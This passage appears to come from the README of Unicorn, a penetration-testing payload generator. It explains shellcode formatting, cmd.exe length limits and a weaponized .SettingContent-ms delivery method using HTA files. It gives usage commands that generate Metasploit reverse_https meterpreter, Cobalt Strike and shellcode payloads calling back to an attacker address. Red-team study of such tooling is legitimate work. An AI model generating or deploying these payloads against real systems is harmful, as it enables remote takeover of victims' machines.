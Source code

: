 NOTE: THE FILE MUST PROPERLY BE FORMATTED IN A 0x00,0x00,0x00 TYPE FORMAT WITH NOTHING ELSE OTHER THAN
YOUR SHELLCODE IN THE TXT FILE.

There are some caveats with this attack. Note that if your payload size is large in nature it will not
fit in cmd.exe. That means that from a command line argument perspective if you copy and paste you will 
hit the 8191 character size restriction (hardcoded into cmd.exe). If you are launching directly from 
cmd.exe this is an issue, however if you are launching directly from PowerShell or other normal 
applications this is a non-problem.

A couple examples here, wscript.shell and powershell uses USHORT - 65535 / 2 = 32767 size limit:

    typedef struct _UNICODE_STRING {
        USHORT Length;
        USHORT MaximumLength;
        PWSTR  Buffer;
    } UNICODE_STRING;

For this attack if you are launching directly from powershell, VBSCript (WSCRIPT.SHELL), there is no  
issues.

###                 -----SettingContent-ms Extension Method----


First, if you haven't had a chance, head over to the awesome SpectreOps blog from Matt Nelson (enigma0x3):

https://posts.specterops.io/the-tale-of-settingcontent-ms-files-f1ea253e4d39

This method uses a specific file type called ".SettingContent-ms" which allows for the ability for both
direct loads from browsers (open + command execution) as well as extension type through embedding in 
office products. This one specifically will focus on extension type settings for command execution
within Unicorn's PowerShell attack vector.

There are multiple methods supported with this attack vector. Since there is a limited character size
with this attack, the method for deployment is an HTA. 

For a detailed understanding on weaponizing this attack visit:

https://www.trustedsec.com/2018/06/weaponizing-settingcontent/

The steps you'll need to do to complete this attack is generate your .SettingContent-ms file from
either a standalone or hta. The HTA method supports Metasploit, Cobalt Strike, and direct
shellcode attacks.

The four methods below on usage: 

HTA SettingContent-ms Metasploit: `python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 ms`  
HTA Example SettingContent-ms: `python unicorn.py <cobalt_strike_file.cs cs ms`  
HTA Example SettingContent-ms: `python unicorn.py <patth_to_shellcode.txt>: shellcode ms`  
Generate .SettingContent-ms: `python unicorn.py ms`
